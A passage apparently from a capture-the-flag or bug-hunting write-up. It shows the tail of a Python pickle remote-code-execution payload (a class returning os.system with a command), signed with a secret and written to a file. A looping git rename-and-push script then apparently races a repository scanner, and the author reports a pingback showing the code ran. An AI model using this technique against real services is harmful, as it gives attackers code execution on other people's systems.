 ```py
        return os.system, (cmd,)

if __name__ == '__main__':
    f = open("aa", "wb")
    pickled = pickle.dumps(RCE(), protocol=3)
    f.write(pickled)
    signature = bytes(generateSig(pickled, TMP_SECRET), "utf-8")
    f.write(signature)
```

created a scripts that shifts the name between `aa` and `mark4archive`:

```py
import subprocess
import os

def git_rename_commit_push(old_name, new_name, repo_dir):
    os.chdir(repo_dir)
    subprocess.run(['git', 'mv', old_name, new_name])
    subprocess.run(['git', 'add', '.'])
    subprocess.run(['git', 'commit', '-m', f'Renamed {old_name} to {new_name}'])
    subprocess.run(['git', 'push'])
    os.chdir("..")

if __name__ == "__main__":
    repo_directory = 'giter'
    old_file_name = 'aa'
    new_file_names = ["mark4archive", "aa"]

    while True:
        for new_name in new_file_names:
            git_rename_commit_push(old_file_name, new_name, repo_directory)
            old_file_name = new_name
```

i ran the script, submitted my private repo for a scan, and i got a pingback:

![pingback](assets/pingback.png)